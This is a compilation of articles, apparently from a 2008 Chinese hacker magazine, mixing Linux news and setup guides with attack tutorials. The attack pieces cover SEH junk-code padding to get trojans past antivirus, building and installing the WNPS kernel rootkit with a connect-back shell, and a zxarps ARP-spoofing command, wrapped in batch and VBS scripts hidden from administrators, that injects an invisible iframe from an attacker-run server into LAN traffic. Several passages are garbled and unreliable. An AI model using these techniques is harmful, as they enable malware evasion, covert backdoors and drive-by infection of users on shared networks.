在理解编译器的 SEH 原理以及 Windows SEH 机制的情况下，SEH 本身的一个重要特点就是其结构性，它意味着程序可以在进程中嵌入异常处理链，在异常发生时系统会根据链表进行相应处理。

## 二、SEH 加花操作

上面的理论介绍了 SEH 的工作原理，简单来说就是，通过这一段代码我们可以控制程序进行跳转，并到相应的地址继续执行。这里我们假设过 SEH 代码不存在坏字符，那么通过 SEH 异常产生的加花过程是：这样就在新的程序中，通过改变 SEH 代码来实现对原有空间分配的操作。

首先运行文件增加区域的工具 ZeroAdd，点击“选择一个文件”按钮来选择程序，接着在“输入新增加区域名”中设置新建立区块的名称，区块名称可以随便起，但是不能是英文。然后在“输入新增加长度大小（按字节）”中填入增加长度的字数，设置起始地址的字数为 100。最后点击“生成新文件”按钮，就可以成功地进行字节的添加，如图 1。

```text
push 00402A44
mov eax, dword ptr fs:[0]
push eax
mov dword ptr fs:[0], esp
```

木马文件一定要经过免杀处理，不然运行以后也将很快被杀毒软件清除。

编辑点评：一般按照常规的方法对文件进行压缩的话，杀毒软件还是有可能发现的，现在已经被杀毒软件所“平庸”了，但是在这种方式中对制作好的文件进行处理后，其可能帮助绕过杀软，不过在传输的时候也能得到一定的延迟。

在这里，00402A44 需要改成原免杀程序的入口点。SEH 异常代码添加完成后，我们进行文件的最后保存。选择右键菜单“复制到新文件”中的“选择部分”命令，然后程序会弹出一个新的提示窗口，在新窗口中点击右键选择其中的“保存文件”命令后，在弹出的窗口中进行保存即可。

由于刚刚更改了文件的入口点，现在需要用 PEditor 修改入口点。运行 PEditor，点击“浏览”按钮选择刚刚修改好的文件。PEditor 会自动读取服务程序的“文件信息”，我们将原来的入口点“00002A44”更改为“00402E40”，然后点击“应用更改”按钮对刚才的设置进行确认即可，如图 2。

### 三、总结

其实免杀的方法可以说是多种多样的，只要我们在现实生活中多观察、多实践，就可以从这些中发现一些全新的免杀方法。比如今天介绍的利用 SEH 加花来免杀，虽然操作过程比较复杂，但是由于花样作用不同而起到的免杀效果也不同。

> 编辑点评：垃圾文件与 SEH 组合所述，没想到还能这么用。有些效果可能会对一般杀毒有一定影响，但是随着大部分都使用了新的加花方式，不少杀毒也可以避免被一些不同样式的方式查杀。

# Linux

- Sun：收购 MySQL 是软件史上第一大并购案

据国外媒体报道，Sun 已经完成收购开放软件厂商 MySQL 的工作。Sun CEO 约纳森·斯瓦茨（Jonathan Schwartz）称，收购金额为 10 亿美元的交易是“现代软件史上最重要的并购案”。

谷歌、Facebook、百度等都在使用 MySQL，MySQL 在全球 25 个国家共有约 400 名员工。

风趣点评：

个人看来，在数据库方面，Oracle 是最强大的，而 MySQL 则是最实用的；这次 Sun 的收购，被称之为“翻转之作”。即使这笔 10 亿美元的交易并不是 Sun 历史上最“贵”的收购，但它的意义确实无法估计。并不只是与 MySQL 的性能和社区外界看法有所冲突，随着技术的发展，用户将是最大的受益者。

- Linux 基金会：微软和 OOXML 的理由很荒唐

据国外媒体报道，Linux 基金会执行董事吉姆·泽姆林（Jim Zemlin）表示，微软推行 OOXML 标准作为第三个 ISO 文档格式的理由是荒唐的。

来自 3 个不同的代表齐聚一堂，对是否批准微软的 OOXML 标准作为 ISO 标准进行讨论。在去年的首轮投票中，ISO 拒绝了微软的请求。

OOXML 是微软 Office 2007 的默认保存格式，而另一文档标准 ODF 目前已经成为 ISO 标准。对于微软的“两种标准并存有助于市场竞争”的说法，Linux 基金会董事会提出了强烈质疑。

就此，微软还认为，两种文档格式并存并不是不公平的事情。而泽姆林则认为：“微软此举的目的就是希望通过 OOXML 标准继续维持其对市场的控制，兼顾原有 90 年代的档案包袱之类问题。”

泽姆林还称，ISO 也并不需要两种文档格式并存。他很早就表示，希望旧 ISO 能够意识到微软的真正目的。

风趣点评：

第一轮投票的时候，微软并没有灰心，毕竟 OOXML 的成败关系到该标准出台后的发挥以及手中主动权。如今，我们已经有能力……

## Ubuntu 桌面体验之服务器设置

□ Lucifer ·

从本文您可以学到：

利用 Ubuntu 架设服务器。

经过去几个月前的“寒战”，相信大家对 Ubuntu 有了初步的认识和掌握。本期我们将接着前面的内容探讨一下 Ubuntu 的一些高级应用，也就是 Linux 系统最基本的应用之一：成为一台合格的服务器。Linux 之所以成为最受欢迎的系统之一，原因很多。基本上所有重要的应用都有 Linux 的影子，全球排名前 500 的超级计算机中，Linux 系统占了绝大部分，而 Google 的集群服务器也都是基于 Linux 系统的。Linux 几乎可以应用到所有的服务器层面。本期将为大家介绍如何在 Ubuntu 上开启一些简单的服务。

首先谈谈作为一个桌面用户对常用服务开启的认识程度。其实随着计算机硬件的不断发展，服务器、工作站、个人电脑之间性能的差别越来越小，所以家庭电脑在做好多任务的同时开启各种服务是完全可以的。安装好的电脑可以用于 http、mail、数据库、irc 等等各种服务。虽然配置不高，比如双核接近 2G 的内存，但是在使用的过程中经常不能像专门的服务器那样在运行单一线程任务上显得高效，所以并不是天生的服务器系统。哪怕它只是作为一个家庭用户级别的平台，用来架设一台服务器也罢了。后来这台电脑还可以做一些桌面应用，比如简单的 LAMP 环境，于是大家就开始觉得容易了。平时上网的时候在 QA 里、软件里，偶尔会用它来做服务器，整个过程也很方便。

直接来到目录下面把自己的网站 IP 先添加上，然后下载就 OK 了，完全不用去管……有时有些烦恼，比如有没有离线？朋友要共享文件给你的话，可以直接放入 ftp 的账号让其上传，用软件上传即可；设置完之后只要互相知道账户密码就可以了；更不用说随时就可以做 p2p 站点，或者在局域网中把访问密码加入。因为自己常常会用，wget、mail 之类也不需要额外折腾，直接在自己电脑上就 OK 了。总而言之，Linux 让自己的生活变得更简单了。

接着我们就来介绍一下 Ubuntu 下面如何开启和设置这些服务。如果您有一些别的需要，比如想把它作为一台下载服务器，那么以下图形界面配置服务的说明就能帮助你准备一台全套费用约 550MHz 的 CPU + 128M 内存的机器专门作为下载服务器。为什么要把这台电脑作为下载服务器？当然是为了下载。请记住这一点：有些看似多媒体应用的系统，在实际应用里很广泛的用途之一就是用来作为下载服务器，而对于视频、电视下载等最常使用的软件，通常是在 Windows 系统里。

风趣点评：

对于虚拟机，我想这就不用介绍给大家了。如果你没有在 Windows 系统上安装过 Ubuntu，特别是在 Linux 和 Windows 平台上创建一个客户端的情况下，做出资源占用足够小的做法，把 Windows 重新当作 Linux 的宿主设备，会让 Linux 的发展提供更多机遇。

首先，我们要对 Linux 开发平台进行一番认识。因为 Linux 由于它的开放性，会很容易地与当前的软件开发环境互相兼容。通过现有的 Adobe Photoshop 的兼容性改进到 Linux 平台，平台上的用户就可使用其完整功能，而且可以非常方便地安装 Windows 应用程序。Adobe Photoshop 软件能够在 GIMP 中进行编辑，其使用要求与 Linux 操作系统兼容。对于 GNU/Linux 平台的用户而言，这对于软件开发的影响可能是值得期待的。然而很多用户会喜欢利用 Linux 开发平台开发应用程序，或是建立在 Linux 服务器上的自动部署环境。

GNU/Linux 免费开放的系统与 Windows 的互操作使得 Linux 的应用程序更加稳定。例如，Picasa 的 Linux 版中，实际上就是通过 Wine 应用程序完成的。经过这些尝试，会将 Windows 应用程序在 Linux 平台上的兼容性改进，但是对于 Linux 来说，也体现出了不同版本运行平台之间的相互兼容。

风趣点评：

对于虚拟机，我们要把 Linux 的专用优势发挥到极致，而 Linux 的优点就是它的开放性。既然 Linux 能够支持对 Windows 应用的兼容，在整个运行中应用的性能也会更加稳定。由于 Linux 的易用性已经成为一种趋势，兼容性也越来越强，因此作为桌面平台的用户，不妨尝试一下 Linux。

据了解，使用 Wine 的最新版本已经在社区上得到了广泛支持。它可以帮助用户运行一些 Windows 程序，包括像 IE、QQ 等常用程序。

Google 的免费应用程序 Picasa 的 Linux 版本，是可以通过 Wine 来运行 Windows 程序的。经过用户开发的改进经验，Google 帮助 Wine 程序走向了一个新的阶段。

现在对于支持 Linux 开发环境的人来讲，Linux 应用程序已能得到更好的适配。随着 Wine 渐渐可以支持越来越多的 Windows 软件，它也推动了 Linux 开源桌面的发展。

Adobe Photoshop 软件表明它可以正常运行在 Linux 平台上，说明软件平台兼容的重要性，GNU/Linux 平台因此受到了更多人的关注。

有个 USB 接口，比如贝尔金的一款 7231-4P，这个时候就能用路由器外挂 USB 硬盘进行下载，做到脱机 BT 或者电驴下载，连电脑都不用开了，是不是很兴奋？

下面还是讲讲如何在 Ubuntu 下面设置下载服务器。首先安装还是一如既往地简单，一个 `sudo apt-get install mldonkey-server` 命令就可以安装好。如果不能正常启动的话，可以在终端里面输入 `mldonkey` 启动，在浏览器内输入 `http://127.0.0.1:4080` 就可以看到 mldonkey 的 Web 管理界面，虽然是英文的，但是基本上都很简单，呵呵。

剩下的关键问题是配置，因为默认的下载目录是在自己的 home 目录下面。有的朋友可能安装 Linux 仅仅是为了学习，别的东西并不会经常使用，所以家里的文件一般比较多。不过放在别的用户分区中也没啥关系，前提是修改配置文件。配置文件位于 `~/.mldonkey/downloads.ini`，我们需要修改的地方包括允许访问的 IP。默认只允许本机访问，如果想让外网访问的话，直接修改：

`allowed_ips = [ "127.0.0.1"; "0.0.0.0-255.255.255.255" ]`

这样所有的 IP 都能访问了，所以等下我们可以通过访问的时候顺便加个密码。另外几个需要修改的地方就是下载目录，修改临时下载目录：

`temp_directory = "/media/hda3/incoming/temp"`

还有查找 `shared_directories`，修改其中的相关设置为你要存放的目录，最好是绝对路径，如图 2。

简单地做了如下配置以后，mldonkey 作为下载服务器就能开始运行工作了。打开前面所说的网址，首先修改默认 admin 用户的密码，在长长的输入框内键入 `passwd + 你的密码` 就可以了。下次再访问这个页面的时候就需要你输入设置的密码了，安全性也有所提高。当然，在 Option 里面修改一下 `upload rate`、`max_hard_upload_rate`、`max_hard_download_rate`、`max_hard_upload_rate_2`、`max_hard_download_rate_2` 这几个变量，可以更好地设置下载和上传速度。比如当你家里是网通宽带，有时晚上下载速度会比较慢，下载时可以开关，也可以在 Transfers → Bandwidth 里进行切换。

笔者经常下载的资源是 eMule，下载时把需要共享的链接复制到对话框后按回车或者点输入按钮即可。或者有很多链接的网页，可以点击 DL 按钮，在面板上面把链接全部复制上去，点击最下面的 input 即可。这里要注意：如果下载分区是 FAT 或者 NTFS，一次添加的列表不要太多，因为 mldonkey 是默认预分配好文件大小的，所以如果一个下载的文件过多会比较慢；但是对于 ext3 等 Linux 的分区，文件分配是动态进行的，所以建议下载到 Linux 分区。查询当前下载的文件在 Transfers → Downloads 里面，也可以在浏览器页面里面自己查看。笔者亲自试验过，工程可行。`http://mldonkey.sourceforge.net`，这是它的主页。

这样，一个全能的下载服务器就配置成功了。关于如何在外网访问家中内网的这台下载服务器，我想就不再啰嗦了，无非是在路由器上面做端口映射或者 DMZ 主机，拨号上网的话平时申请一个动态域名，这些是后续的工作。

剩下的篇幅我们简单地讲解一下如何在 Ubuntu 下面架起一个 phpBB2 的论坛，这也是 LAMP 整篇中的一个应用了。需要的组件有 Apache2、PHP、MySQL，还有 MySQL 的 Web 管理界面 phpMyAdmin。安装命令不予赘述了，这里说一下需要安装些什么：apache2、php5、php5-mysql、mysql-server-5.0、phpmyadmin，以及 phpbb2、phpbb2-language、phpbb2-conf、phpbb2-l10n。前面几个是 LAMP 的组件，后面三个是 phpBB2 的组件。phpBB2 的包可以继续安装。

如何在 Ubuntu 之中安装 LAMP 的文章已经非常充分了，Ubuntu 的好处就是安装好了就能用，不需要做额外的配置。检查 Apache2 正确安装的方法是访问 127.0.0.1，能看见 “It works!” 页面；检查 PHP 正确安装是验证是否放置了一个简单的 PHP 文件到 `/var/www` 目录下访问，看看能否正确响应。检查 MySQL 的方法是手动把 phpMyAdmin 的目录链接到 `/var/www` 下，命令：

`sudo ln -s /usr/share/phpmyadmin /var/www/phpmyadmin`

然后访问它，可以看到如图 3 所示。前面安装 MySQL 的时候设置的 root 密码就能登录数据库了。先在 phpMyAdmin 里面建立一个叫 phpbb2 的数据库，留待后用。然后在安装好 `phpbb2-conf-mysql` 之后的配置界面会跳出来如图 4 的设置，选择 Populate，就自动在建好的数据库内生成 phpbb2 所需要的各种表。如果第一次没有正确生成或者选择了 NONE，可以用 `sudo dpkg-reconfigure phpbb2-conf-mysql` 再次配置这个程序。

最后可以用两种办法将 phpbb2 置于 WWW 的目录里面，一个像前面 phpMyAdmin 那样直接用命令做软链接，另一个是修改 Apache 的配置文件，修改 `/etc/apache2/sites-available/default` 文件，最后加入如下内容：

```apache
Alias /bbs/ /usr/share/phpbb2/site/
<Directory "/usr/share/phpbb2/site/">
    Allow from all
</Directory>
```

修改之后，就能用 `http://127.0.0.1/bbs/` 来访问刚刚安装好的 phpbb2 了，如图 5。不过默认的论坛是关闭的，而且是英文版，所以接着往下做。首先用默认 admin 账户登录，密码也是 admin。登录以后点击页面顶部的 Go to Administration Panel 进入管理页面，在 General Admin 的 Configuration 里面把 Disable board 选成 No，提交更改后进入页面，如图 6 所示。接着点击 Profile，在里面把 Board Language 改成简体中文就大功告成了，如图 7 所示。接下来设置就非常简单了，增加一些论坛子类，设置权限，换个自己喜欢的皮肤等等。Enjoy it！

有了 LAMP，一切变得皆有可能，桌面用户做服务器也并非不可，这就是我的感受。服务器使自己的桌面变得更加强大，使得“服务器”这个字眼不那么深奥，使得用户更加自由。而 Ubuntu 使得这一切变得无比简单。有了 Ubuntu，生活是那么地简单！

## 初试 Linux 环境下的 rootkit 后门 —— WNPS 安装使用方法

来源（华东理工大学数据库）

从本文您可以学到：
了解和使用 WNPS。

### 简介

WNPS 是一个工作在 x86 2.6.x 内核下的 rootkit + backdoor 程序。它的意思是 WNPS is not poc shell，作者的意图在于将它设计成一个可用于实战的 Linux rootkit。首先，我们需要一个 Linux 2.6.x 的 Linux 内核，如果 Linux 内核比 2.6 版本低，那么可以通过升级内核的方式得到 Linux 2.6.x 的内核。Linux 最新的内核可以在 http://www.kernel.org/ 下载。同时，获取的内核需要支持 modules。

### 开始

做好上述准备工作之后，就可以开始准备编译 wnps-0.26-beta.tgz。第一步当然是获取 WNPS 的源码啦，可以到 http://www.xfocus.net/tools/200710/1233.html 下载获得，如图 1。下载源码之后，使用 tar 对 WNPS 进行解压。解压完成之后，需要对 WNPS 进行配置。首先，进入 WNPS 目录，使用 vi 编辑器修改 `config.h` 文件，达到修改 WNPS 的目的。如果想使得 Windows 平台的 nc 登录时不出错，需要将 `config.h` 中的 `#define ENCRYPT` 改为 0，即取消进行加密，如图 4。修改之后，保存、退出。在修改服务端设置后，还需要修改客户端设置。

## 【图外】~2008.04 非安全类黑客手册

进入 client 目录，使用 vi 编辑器编辑 config.h。同样，需要将 `#define ENCRYPT` 修改为 0。目的是需要我们添加一行代码，如下：

```c
#define DEFAULT_IP T_IP
```

此代码含义为设置远程程序内的 IP 地址，必须是客户端能够直接访问的 IP 地址，如图 5。在修改好所有配置文件之后，就可以进行编译工作了。我们先编译服务端，进入 wnps 目录，make，如图 6。make 之后，make install，服务端就开始运行了，如图 7。

在编译好服务端之后，需要开始编译客户端。进入 client 目录，使用 make 命令进行编译，如图 8。编译之后，可以看到 client 目录下出现了一些新的文件，其中 client 就是我们的客户端。在网上查看 wnps 客户端的运行命令，可知 wnps 客户端运行命令是 `./client operation`。其 operation 包括 tcp packet 参数和 listen 参数。tcp packet 选项中 victim ip 为远程服务器地址，必须填写该数据；victim port 为远程服务器开放的端口，默认将会自动扫描开放的端口，在 send.h 里定义。[connect back ip] 为你要反弹回来的主机地址，默认是本机公网 IP 地址，必须是可以让内网能够回连的地址。[connect back port] 为你要反弹回来的主机端口，默认为 8899，在 config.h 里定义。

这里，我们假设服务端 IP 地址为 192.168.1.55，客户端 IP 地址为 192.168.1.44，编译默认，在本地输入 `./client tcp 192.168.1.55 22` 之后，可以看到 client 通过 send.h 这个文件开始对服务端的端口进行扫描，当扫描到服务端开放的常用端口之后，获得一个 wnps 的远程 shell，如图 9。

除了使用 wnps 自带的 client，我们还可以使用 netcat 来获得远程 shell。要想使用 nc，同样需要下载 nc 的源码，然后对 nc 进行编译。nc 的下载地址是：http://down1.chinaunix.net/distfiles/netcat-0.7.1.tar.bz2，如图 10。下载之后，用 tar 工具解压，如图 11。然后对 nc 进行编译，依次运行 `./configure`、`make`、`make`。

## 安装 PCLinuxOS 2008 MiniMe 到 U 盘

从本文您可以学到：

怎样把 PCLinuxOS MiniMe 2008 安装到 U 盘。

这次的教程主要是用来把 PCLinuxOS MiniMe 2008（如图 1）安装到 U 盘上使用，并且能记录、保存及恢复用户对系统所做的修改。

### 需要的东西

- 1. PCLinuxOS MiniMe 2008 的 ISO 镜像（以下简称 2008 的镜像）；
- 2. 一个 512MB 以上的 U 盘，推荐 1G 的（现在这东西不贵，4G 的只要 19 元）；
- 3. 一个叫 syslinux.exe 的小工具和两个小文件——用来处理 U 盘启动的程序；
- 4. 资料齐了，就开始动工。

1）插上 U 盘，备份好里面重要的文件，然后格式化。格式化成 FAT32 就行。

2）在桌面上建立一个文件夹，如“MiniMe”。当然，只是为了方便，在别的地方也可以，弄清楚路径就好，再把 2008 的镜像放到 MiniMe 的文件夹里，备用。

3）这步是重要的步骤，要处理引导部分的问题。在 MiniMe 的文件夹下建立一个叫做 USBMM 的文件夹，把 ISO 里的文件解压到这个文件夹里。然后从中找到几个文件，例如 isolinux、syslinux.cfg、vesamenu.c32 等，复制到 USBMM 文件夹里。接着把 isolinux 文件夹下的内容粘贴到 USBMM 文件夹中，然后把 USBMM 下的 ISO 文件内容中除了 ISO 外的一些文件，比如 isolinux 以及 syslinux 文件一并转移过去，最后将引导部分处理完毕。

4）开始处理 U 盘启动的问题。插上 U 盘，然后把 USBMM 文件夹里的所有内容都复制到 U 盘的根目录。把小工具 syslinux.exe 放到一个 CMD 好找到的地方，这样就不需要在命令行中切换目录，执行 `syslinux -ma x:`，这里的“x”代表 U 盘的盘符，比如 U 盘插到电脑上是 I 盘，这里就是 `syslinux -ma i:`。这个工具会在 U 盘上创建一个隐藏的文件 ldlinux.sys，现在这个 U 盘就可以启动了。

5）可以先测试一下，设好 BIOS，看看这个 U 盘能不能启动。

正常启动后，PCLinuxOS MiniMe 2008 就可以正常启动了。收尾工作也一样重要。系统做好了还没结束，如果用户作出修改，镜像程序一样不要忘了处理。

1）启动刚刚做好的 MiniMe 2008，打开一个控制台，然后输入 `fdisk -l` 查看一下 U 盘是不是有问题。接着运行命令 `mkdir minime && mount /dev/sdx1 minime`（必须以 root 权限执行）以创建 minime 文件夹并把系统挂载到里面，千万别忘了把命令里的 sdx 换成自己的 U 盘对应的设备名。

2）接着执行 `dd if=/dev/zero of=minime/changes bs=1M count=256`，然后再执行 `echo "" | mkfs.ext3 minime/changes`。执行这些命令后，MiniMe 2008 的 U 盘就可以在每次启动时保存及恢复用户对于系统所做的修改了。

说在最后，PCLinuxOS 是个十分好的 Linux 发行版，上手很容易并且界面华丽，而且也拥有很大的软件库，绝对值得尝试。PCLinuxOS 在 DW.com 上的排名已经超过 Ubuntu 了。同时国内也有很多其他的 PCLinuxOS 汉化工作，应该说还是很容易让大家接受的。

> 编辑点评：
>
> 虽然说现在网上已经出来了很多所谓的 Linux 发行版了，但是这个版本的系统特别流畅，可以很方便地适配机器配置，因此非常适合新手尝试。虽然它与 Ubuntu 有不少差别，不过如果你要的是一个界面美观又实用、比较稳定的系统，那么 PCLinuxOS 确实是不错的。

## 网管日记

### 之初识硬件

普通：

这一期的故事又和你们见面了，让各位久等了。从头期开始始终继续动态文章、上网、网络杂谈、技术文章测试……四月好像也没有啥节日，各位就吃得喝得玩得开心吧！

这两个东西都在机箱里面啊，我怎么弄清情况呢？连认都不认识机箱里面的东西，该怎么去解决它们产生的情况？于是经过主管换机箱里面的部件时，我有机会观察机箱内部。打开机箱，映入眼帘的是大量的灰尘——！主管告诉我：那个长方形的、四周用螺丝固定的就是硬盘了，其中一头有两个接口，一个接数据线，一个接电源。还有很多插槽都用来插显卡、内存、网卡之类的东西。他之后又告诉我哪里是 BIOS 电池，哪里是 CPU，那条架子是内存条……

“机器里面的东西也只是个机械而已，但它们该如何组装、如何搭配，那应该是一个既定的难题，不然就会出现问题。”

“这话太有道理了，这些东西是固定在机箱里面的嘛！”我点头，提出了这样的问题。

“嗯，这两者很重要，有些人不了解，喜欢硬拔或者硬插，那是不恰当的。你看那显卡明显有个卡扣固定着，拿出来时先把那东西推动出来一部分，这样你取显卡时就不会有什么压力了。”

“说完了，他把电脑电源也拔掉了，开机，喏——————”

“这是怎么回事？”

“内存条的问题，通常这种清脆的声音都是由内存条引起的！”

主管很熟练地把固定内存条的东西往两边拨开，然后轻轻地把内存条拿了出来，然后又放进去了。我在旁边看得有点好笑，情不自禁地说：“哇，拔出来一下，然后再插进去，这样有没有效？”

“有效不有效，等会就知道了。”

“看来又是不够用了的声音了。”我很是郁闷，苦等着老大姐机箱。笑了笑，对我说：“这是解决硬件问题最基本的四个步骤。”这套总结，老是把我搞得晕头转向的。

- 1. 内存超频或不稳定造成的蓝屏
- 2. 硬件的兼容性不好引起的蓝屏
- 3. 硬件散热引起的“蓝屏”故障

上去，有时如果没有解决问题，特别是内存条的话，可以用橡皮擦一下，吹下灰尘什么的，有时效果很明显的。

“网管——”正在这时，一个破嗓子打断了我们的谈话。

这回不是蓝色的背景了，而是黑糊糊的一片，什么都没有，但是显示器的电源灯还是亮着的，我只好叫上主管了。主管什么话都没说，就按了重启按钮，接着对玩游戏的人说：“显卡不能运行你那游戏啦，换台机子吧。”

“除了经久耐用外，硬件的性能也不能忽视。比如刚才你看到的黑屏和显卡有关，玩着玩着会突然黑屏。显卡的两个重要的性能指标就是像素填充率和显存。像素填充率的单位是‘像素/秒’，知道哪种机子的应该就会知道像素一词。像素填充率越高就表示显卡的性能越强，显示图形的速度越快，而显存则决定了电脑能存储多少纹理数据和处理完的数据。图形核心的性能越强，需要的显存也越多。你也看到了吧，质量差的显卡会出现许多问题的……”

原来硬件上的学问也这么多，也许当我学到了更多的知识后，就不会在顾客面前不知所措了。看来，路还很长……

小编：继续前面的网管日记系列，为感谢连日来的奋战和辛苦。

## 利用 BAT 和 VBS 辅助局域网入侵

从本文你可以学到：在内网入侵时利用批处理以及 VBS 来隐藏行迹。

以前去网吧都是玩游戏，这次去是为他免费做安全检测。第一次啊！老板接我进场的时候好吓人，后来……所以之后想了想如何把操作隐藏。这次我以 ZXARPS.EXE 来做内网联动为例子。

- 步骤是这样的：
- 1. 要架设好 HTTP 服务器
- 2. 然后制作网页
- 3. 得到内网 IP
- 4. ZXARPS 隆重出场

```bash
zxarps.exe -idx 0 -ip 192.168.1.2~192.168.1.255 -port 80 -insert "<iframe src=\"http://192.168.1.4/novaa.html\" width=0 height=0>"
```

如果你这样一件一件来做，不仅时间慢，而且会在任务栏里出现，很容易被发现。那么有什么办法呢？我是这样做的：先把免杀等工作都做好，然后写个批处理来完成命令行下的任务，接着用一个 VBS 来隐藏运行这个批处理，这样就只会在进程里出现一个 CMD 的进程了！是不是隐藏多了？那我们再来看看我们的代码（nohack.bat）。

```bat
@echo off
for /f "tokens=2 delims==" %%i in ('ipconfig /all|findstr /r /i "Address"') do (
  set ip=%%i
  set ip=%ip:~1%
  for /f "tokens=1,2,3 delims=." %%j in ("%ip%") do ...
)
```

```bat
set /p=%%i%%
zxarps.exe -idx 0 -ip %arpip%0-%arpip%255 -port 80 -insert "<iframe src=\"http://%ip%/novaa.html\" width=0 height=0>"
```

这将自动扫描的代码就出来了！上面的代码写的时候测试了很多次，刚好可以了。原来是没有发觉显示框。代码功能是自动获取 IP，然后利用 zxarps 进行内网挂马。好了，那么我们怎么隐藏运行这个批处理呢？

```vb
dim wsh
set wsh=createobject("wscript.shell")
wsh.run "nohack.bat",0,hide
```

运行上面的 VBS 就可以隐藏运行 nohack.bat 了，只会在进程中出现一个 cmd.exe，在任务栏里面和任务管理器应用程序里面都没有显示。好了，我们尽量去玩其他的了，就算网管在后面看着你也不需要怕了。哈哈……

编辑点评：这里有几个复杂的参数我来帮你解释一下，方便大家阅读。先是“/f”这个参数，它的作用是 for 循环语句支持分段读取，意思是读一行并在字符串中通过逗号拆分成分隔符，然后把余下的元素分别出来，作为循环所使用的数值；“tokens=2”就是数据中的第 2 个元素，“delims==”是逗号或分号这些的分隔符，等等……

从本文你可以学到：1. 了解脚本的 DOS 命令 2. 利用 DOS 命令对文件及文件夹进行加解密

快码加编言：

一日，老师在上机实践课时出了一道题，让大家用 C 编程，最后结果要和他的答案一致。全班同学在规定时间完成了，只有一位同学交卷时，自认为做得漂亮，于是他一眼就看出是全部错误。可是老师还说对就是错了，最后他说你一定要按照要求的格式输出……

于是我兴奋地写好了一句，只有一句：`printf("XXXXX\n");`

## 文件与文件夹隐藏加密解密原理与破解方法彻底研究

### 前言

文件/文件夹加密方面的软件很多，相应的解密文章也很多，但总结性的却很少，因此我整理了很多资料，列成了下面的文章，其中一些内容参考了网上的文章，在此先谢谢那些文章的作者。

## 基本知识介绍

在进入正题前，我先介绍几个会要用到的知识。

- 1. 进入命令行窗口

在开始—运行，或直接用快捷键 WIN+R 打开运行窗口后输入 CMD，回车后出来一个黑乎乎的窗口，这就是 CMD 命令行界面。严格地说，命令行窗口并不是真正的 DOS 界面，但是你只要知道这个窗口可以运行 DOS 命令就可以了。

- 2. 要用到的 DOS 命令

`/?`：跟在相关命令后面，用于显示该命令的帮助信息。

`MD`：新建文件夹，后面参数为新建文件夹路径信息。

`DIR`：显示磁盘中及当前文件夹的文件。常用参数 `/A` 是指列出当前目录所有文件，也包括系统和隐藏文件。参数 `/S` 是指对目录及其子目录中所有文件进行列表。可以使用通配符。

`COPY`：复制文件、文件夹命令。

`RD`：删除文件夹命令，参数 `/S` 表示删除目录及树，即包括子文件夹和文件，`/Q` 表示不再确认。

`DEL`：删除文件命令，`/Q` 可以配合通配符使用。

`ATTRIB`：修改文件属性命令，包括隐藏、系统、只读等。

`CD`：切换目录命令，参数为要进入的目录路径。`cd ..` 返回上一目录，`cd \` 返回到根目录。

`&`：命令连接符，用于执行 `&` 连接的两个命令。

- 3. UNC 路径格式

UNC 路径就是类似 `\\servername\sharename` 这样的网络路径。它符合 `\\servername\sharename` 格式，其中 servername 是服务器名，sharename 是共享资源的名字。比如 `C:\temp` 的 UNC 路径为 `\\1.1.1.1\temp` 或者 `\\?\C:\temp`，“?”是指本地设备路径。

- 4. Windows 文件命名规则

通常 Windows 中文件名需要符合以下几个要求：在文件名或文件夹名中，最多可使用 256 个字符。组成文件名或文件夹名的字符可以是英文字母、数字及空格、下划线、减号、@、&、+、()、汉字等，但不能使用如下 9 个字符：`? \ * " < > / : |`。系统设备名字中，串末不能使用（不包括最新的 Vista 系统）诸如 CON、AUX、COM1、COM2、COM3、COM4、LPT1、LPT2、LPT3、PRN 和 NUL 等字符串。

## 文件、文件夹加密、解密大全

1. 最基本的加密、解密方法——修改扩展名或者是修改文件、文件夹属性。这个方法比较简单，打开任意一个文件夹后在“工具—文件夹选项—查看”中，把隐藏已知文件类型的扩展名、隐藏系统文件夹等选项进行调整。直接把要隐藏的文件扩展名改为一个其他的扩展名（如把 JPG 改为 VXD 扩展名），然后把文件和所在的文件夹隐藏，在文件夹选项中设置不显示扩展名，则就像一个没有扩展名的文件或文件夹了。由于有时系统对文件、文件夹属性的读取性和安全性作用，仅仅利用 SYSTEM、TEMP、JPG 类等扩展名，把文件伪装到系统环境中，这样扩展名处于正常未显示状态。

有的方法中可以仅改动“文件/目录”的隐藏属性，把正好被改过名字的文件和文件夹重新创建或恢复原样，系统就会自动显示出来。系统设置恢复后，还是一般被正式文件和文件夹后缀的功能设置不容易被人发现。

当然，为了安全，我们还可以在自己的基础上再做一些更隐蔽的操作，比如，通过命令行下运行 `ATTRIB +H +S C:\TEMP\1.JPG` 可把 `C:\temp` 下面的 `1.JPG` 文件设置为系统隐藏，这样即使显示隐藏文件仍然不容易显示。

`HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Explorer\Advanced\Folder\Hidden\SHOWALL` 分支右边的 `CheckedValue` 键值设置为 0，那样合法显示文件夹文件就会恢复正常访问。一样的，用户只要没有对文件或文件夹中的修复加密进行处理，也是在后台自动执行。

2. 改进 COPY 命令隐藏。这个方法网上流传甚广，动画数据库基本上也是用这个方法的。比如我们要把自己的文件放在一个图片文件里，那么把自己的文件和一个图像文件按二进制方式连接，使用 `COPY /B 2.JPG+1.SWF 3.JPG` 就可以把 `1.swf` 文件隐藏在 `3.jpg` 文件里面了，`/B` 参数一定要加。如果不使用二进制方式连接文件，而直接隐藏，`3.jpg` 的显示就会有提示，如图 2 所示。

## 非完美·黑客手册 2008.04—【快码加编】

一样的，只是左键使用 copy 命令之前先把文件用 WinRAR 压缩一下，然后再使用“copy /b 2.jpg+1.rar 4.jpg”加密，而这个文件解密就比上面的方便多了，把 4.jpg 直接用 WinRAR 打开，解压就可以了，如图 5 所示。

- 1. 利用 Windows 系统设备命名文件来规避杀毒漏洞
- 2. 利用 Windows 命令编号命名文件
- 3. 长文件名或文件夹无法删除
- 4. 建立空格为名字的空文件夹
- 5. 修改文件名，系统自动转为 CLSID


由于 Windows 文件命名的限制，CON、AUX、COM1、COM2、COM3、COM4、LPT1、LPT2、LPT3、PRN 和 NUL 等系统设备名字是不能在文件名中出现的。那些加密工具就可以采用 Windows 系统的命名方式，创造出这些文件夹，利用压缩包内命令方式保留成文件夹内容。和普通文件夹一样，可以在 DOS 命令行中通过“md 设备名”创建这些特殊文件夹；也可以将文件夹中的内容用“copy”命令保存，再用“copy /b 1.txt+2.txt copy”等方法合并成文件。删除特殊文件夹时，需要先删除其中内容，再删除空文件夹。

例如：先用“copy c:\temp\1.txt 1.txt”复制一份，再用“copy /b 1.txt+2.txt copy”合并后即可生成新的文件。若要使用 Windows 命令行调用，只需按下该文件夹中的命令运行即可。

